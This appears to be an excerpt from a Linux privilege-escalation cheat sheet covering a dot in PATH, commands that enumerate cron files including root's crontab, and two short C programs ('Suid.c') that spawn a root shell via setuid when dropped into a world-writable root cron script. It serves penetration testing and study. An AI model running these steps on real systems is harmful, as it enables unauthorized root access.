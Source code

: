 ### Bad path configuration

Putting `.` in the path  
If you put a dot in your path you won't have to write `./binary` to be able to execute it. You will be able to execute any script or binary that is in the current directory.

Why do people/sysadmins do this? Because they are lazy and won't want to write `./.`

This explains it  
[https://hackmag.com/security/reach-the-root/](https://hackmag.com/security/reach-the-root/)  
And here  
[http://www.dankalia.com/tutor/01005/0100501004.htm](http://www.dankalia.com/tutor/01005/0100501004.htm)

### Cronjob

With privileges running script that are editable for other users.

Look for anything that is owned by privileged user but writable for you:

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#### Cron.d

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

**Suid.c**

```
int main(void) {
setgid(0); setuid(0);
execl(“/bin/sh”,”sh”,0); }
```

or

```
int main(void) {
setgid(0); setuid(0);
system("/bin/bash"); }
```

### Unmounted filesystems
